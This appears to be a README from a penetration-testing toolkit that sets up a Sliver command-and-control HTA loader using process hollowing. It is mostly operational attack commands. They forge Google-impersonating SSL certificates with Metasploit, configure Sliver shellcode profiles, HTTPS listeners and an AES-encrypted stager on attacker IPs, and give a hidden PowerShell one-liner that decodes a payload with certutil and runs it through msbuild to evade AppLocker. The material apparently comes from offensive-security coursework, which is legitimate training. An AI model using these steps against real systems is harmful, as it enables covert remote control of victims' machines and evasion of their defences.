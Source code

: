 # Overview
The payload is specific to the Process Hollowing payload that works with the https sliver profile
Run the powershell encoder to convert the sliver.ps1 to usable format for the hta powershell code runner within hta file

### Modify the runner.xml
Modify the runner.xml and change the IP address and runner.ps1 (or .txt) which will be the shell code runner, reference the PEN-300/sliver folder for simple shell code runner .ps1

### Encoding
The xml requires base64 encoding and placed into the runner.hta file within the powershell command to execute the mshta file.

```bash
PS Z:\ToolLibrary\AppLocker-CLM\HTA\Sliver-AdvancedHTTPs-HTA-Loader> .\HTA-powershellEncoder.ps1
```

Copy and paste the output from the encoded.txt file into the runner.hta file.

## References
Sliver staged payload: ToolLibrary/Sliver-Setup-HTTPS/sliver.ps1
XML Payload: ToolLibrary/AppLocker-CLM/HTA/Sliver-Basic-HTA-Loader/runner.xml
HTA Template: ToolLibrary/AppLocker-CLM/HTA/Sliver-Basic-HTA-Loader/runner.hta

## Sliver Setup
```bash
# impersonate_ssl for crt/key creation for encrypted https traffic
msfconsole -q -x "use auxiliary/gather/impersonate_ssl; set RHOST www.google.com; run; exit"

#Then save the .crt and .key files into an appropriate folder for easy reference

# Create profile local64 and point to port 443
sliver > profiles new --http 192.145.227.43:443 --format shellcode local64

# Setup main listener with google.crt / key generated with metasploit
sliver > sliver > https -L 192.168.45.227 -l 443 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key

# Setup the main stager with .crt and .key
sliver > stage-listener --url https://192.168.45.227:8064 --profile local64 -c /home/kali/Desktop/PEN-300/sliver/sslCerts/google.crt -k /home/kali/Desktop/PEN-300/sliver/sslCerts/google.key -C deflate9 --aes-encrypt-key D(G+KbPeShVmYq3t6v9y$B&E)H@McQfT --aes-encrypt-iv 8y/B?E(G+KbPeShV
```

## Prepare Sliver Payload
```bash
# payload for the https stager can be found in ToolLibrary/Sliver-Setup-HTTPS/sliver.ps1
```

## Prepare HTA XML runner 
```bash
# Update the runner.xml with the URI that corresponds to kali hosted webserver

# Encode the runner.xml into base64 and outputs contents into encoded.txt 
┌──(kali㉿kali)-[~]
└─$ pwsh ./HTA-powershellEncoder.ps1

# Copy contents into runner.hta 
powershell -windowstyle hidden echo <insert here> > c:\\windows\\temp\\enc.txt;certutil -decode c:\\windows\\temp\\enc.txt c:\\windows\\temp\\a.xml;C:\\Windows\\Microsoft.NET\\Framework64\\v4.0.30319\\msbuild.exe C:\\windows\\temp\\a.xml
```
